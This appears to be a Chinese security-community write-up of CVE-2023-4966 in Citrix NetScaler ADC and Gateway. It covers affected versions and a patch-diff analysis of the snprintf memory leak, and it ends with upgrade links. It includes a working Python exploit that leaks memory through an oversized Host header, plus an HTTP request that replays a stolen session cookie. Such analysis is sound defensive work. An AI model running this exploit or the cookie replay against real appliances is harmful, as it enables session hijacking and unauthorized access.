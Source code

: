 

# CVE-2023-4966 Citrix NetScaler ADC & Gateway 信息泄露漏洞 - 先知社区

CVE-2023-4966 Citrix NetScaler ADC & Gateway 信息泄露漏洞

- - -

## 一、漏洞概述

漏洞编号：CVE-2023-4966

影响的版本：

NetScaler ADC 和 NetScaler Gateway 14.1 < 14.1-8.50

NetScaler ADC 和 NetScaler Gateway 13.1 < 13.1-49.15

NetScaler ADC 和 NetScaler Gateway 13.0 < 13.0-92.19

NetScaler ADC 13.1-FIPS < 13.1-37.164

NetScaler ADC 12.1-FIPS < 12.1-55.300

NetScaler ADC 12.1-NDcPP < 12.1-55.300

影响厂商：美国思杰（Citrix）公司

厂商官网地址：[https://www.citrix.com/](https://www.citrix.com/)

漏洞说明：NetScaler ADC 和 NetScaler Gateway 是美国思杰（Citrix）公司的产品。Citrix Gateway 是一套安全的远程接入解决方案，可提供应用级和数据级管控功能，以实现用户从任何地点远程访问应用和数据；Citrix ADC 是一个全面的应用程序交付和负载均衡解决方案，用于实现应用程序安全性、整体可见性和可用性。在 Citrix 设备设置为网关（VPN 虚拟服务器、ICA 代理、CVPN、RDP 代理）或 AAA 虚拟服务器的情况下，可以通过访问/oauth/idp/.well-known/openid-configuration 路由并往 HOST 字段发送大量数据从而泄露缓冲区信息，其中可能包含 session cookie 相关信息，攻击者可以借助该信息无需经过身份验证实现访问。

## 二、漏洞分析详情

我们选择 NetScaler Gateway 的 13.1-49.15 和 13.1-48.47 两个版本进行分析，主要关注其 /netscaler/nsppe 二进制文件的相关补丁，该文件是 NetScaler 数据包处理引擎，它包含完整的 TCP/IP 网络堆栈以及多个 HTTP 服务。

通过分析，最终确定与漏洞相关的函数为：ns\_aaa\_oauth\_send\_openid\_config 和 ns\_aaa\_oauthrp\_send\_openid\_config

更新前后代码的主要差异如下：

更新前：

```plain
iVar3 = snprintf(print_temp_rule,0x20000,
               "{\"issuer\": \"https://%.*s\", \"authorization_endpoint\": \"https://%.*s/oauth/ idp/login\", \"token_endpoint\": \"https://%.*s/oauth/idp/token\", \"jwks_uri\":  \"https://%.*s/oauth/idp/certs\", \"response_types_supported\": [\"code\", \"toke n\", \"id_token\"], \"id_token_signing_alg_values_supported\": [\"RS256\"], \"end _session_endpoint\": \"https://%.*s/oauth/idp/logout\", \"frontchannel_logout_sup ported\": true, \"scopes_supported\": [\"openid\", \"ctxs_cc\"], \"claims_support ed\": [\"sub\", \"iss\", \"aud\", \"exp\", \"iat\", \"auth_time\", \"acr\", \"amr \", \"email\", \"given_name\", \"family_name\", \"nickname\"], \"userinfo_endpoin t\": \"https://%.*s/oauth/idp/userinfo\", \"subject_types_supported\": [\"public\"]}"
               ,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8);
authv2_json_resp = 1;
iVar3 = ns_vpn_send_response(param_1,0x100040,print_temp_rule,iVar3);
```

更新后：

```plain
uVar7 = snprintf(print_temp_rule,0x20000,
               "{\"issuer\": \"https://%.*s\", \"authorization_endpoint\": \"https://%.*s/oauth/ idp/login\", \"token_endpoint\": \"https://%.*s/oauth/idp/token\", \"jwks_uri\":  \"https://%.*s/oauth/idp/certs\", \"response_types_supported\": [\"code\", \"toke n\", \"id_token\"], \"id_token_signing_alg_values_supported\": [\"RS256\"], \"end _session_endpoint\": \"https://%.*s/oauth/idp/logout\", \"frontchannel_logout_sup ported\": true, \"scopes_supported\": [\"openid\", \"ctxs_cc\"], \"claims_support ed\": [\"sub\", \"iss\", \"aud\", \"exp\", \"iat\", \"auth_time\", \"acr\", \"amr \", \"email\", \"given_name\", \"family_name\", \"nickname\"], \"userinfo_endpoin t\": \"https://%.*s/oauth/idp/userinfo\", \"subject_types_supported\": [\"public\"]}"
               ,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8,uVar5,pbVar8);
uVar4 = 0x20;
if (uVar7 < 0x20000) {
    authv2_json_resp = 1;
    iVar3 = ns_vpn_send_response(param_1,0x100040,print_temp_rule,uVar7);
    ...
}
```

该代码段落在访问 /oauth/idp/.well-known/openid-configuration路由的时候将被调用，其逻辑是通过调用 snprintf() 函数构造一个 json 数据并通过 ns\_vpn\_send\_response() 函数形成 http response 返回给用户，这个 json 数据中拼接了来自 http 请求的 **HOST 字段的数据**

正常访问 /oauth/idp/.well-known/openid-configuration路由的返回界面如下：

[![](assets/1699929042-03faa7de16586a595f2c64a8ae0752b3.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20231113170151-493450b2-8203-1.jpg)

snprintf() 函数虽然通过第二个参数限制了 print\_temp\_rule 对应的字符串的最大长度，但是 snprintf() 函数的返回值却是 完成 format 之后预期的 字符串的长度，也就是说即使第二个参数为 0x20000，snprintf() 函数的返回值可以大于 0x20000

ns\_vpn\_send\_response() 函数的第四个参数决定了读取的内存大小，这就意味着 紧跟在 print\_temp\_rule 变量之后的缓冲区中的信息能够被带入 response 当中

从上面的分析可以想到，攻击者能够在访问 /oauth/idp/.well-known/openid-configuration路由时往 Host 字段插入大量数据，从而使得返回的 response 中带上缓冲区信息，导致信息泄露。

## 三、漏洞利用脚本

```plain
import requests
from urllib.parse import urljoin

url = "https://ip:port"

headers = {"Host": "a"*24578}
try:
    r = requests.get(urljoin(url,"/oauth/idp/.well-known/openid-configuration"), headers=headers, verify=False,timeout=10)
    print(r.status_code)
    if len(r.content) > 0:
        with open("resp.txt","wb") as f:
            f.write(r.content)
except Exception as e:
    print(e)
```

在 response 中可能会包含 长度为 65 或 32 的 session cookie，比如：

```plain
5e588bab9a60e4831bc1da8ade46d78b0c3a01c3a45525d5f4f58455e445a4a42
```

[![](assets/1699929042-8d6c0b2afd1c039f7d9a4ec903770b24.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231113120657-164da6cc-81da-1.png)

攻击者可以借助该信息无需经过身份验证实现系统的访问：

```plain
GET /logon/LogonPoint/Authentication/GetUserName HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Cookie: NSC_AAAC=5e588bab9a60e4831bc1da8ade46d78b0c3a01c3a45525d5f4f58455e445a4a42
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close
```

​

[![](assets/1699929042-27d7190724d355b3744add8a5818ec5e.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20231113170344-8c2c4af0-8203-1.jpg)

## 四、漏洞影响

NetScaler ADC 和 NetScaler Gateway 14.1 < 14.1-8.50

NetScaler ADC 和 NetScaler Gateway 13.1 < 13.1-49.15

NetScaler ADC 和 NetScaler Gateway 13.0 < 13.0-92.19

NetScaler ADC 13.1-FIPS < 13.1-37.164

NetScaler ADC 12.1-FIPS < 12.1-55.300

NetScaler ADC 12.1-NDcPP < 12.1-55.300

**前提条件：**为了利用该漏洞，Citrix 设备必须设置为网关（VPN 虚拟服务器、ICA 代理、CVPN、RDP 代理）或 AAA 虚拟服务器

## 五、修复方案

官方最新版本已修复此漏洞。

下载地址为：

[https://www.citrix.com/downloads/citrix-adc/](https://www.citrix.com/downloads/citrix-adc/)

\[[https://www.citrix.com/downloads/citrix-gatewa](https://www.citrix.com/downloads/citrix-gatewa)
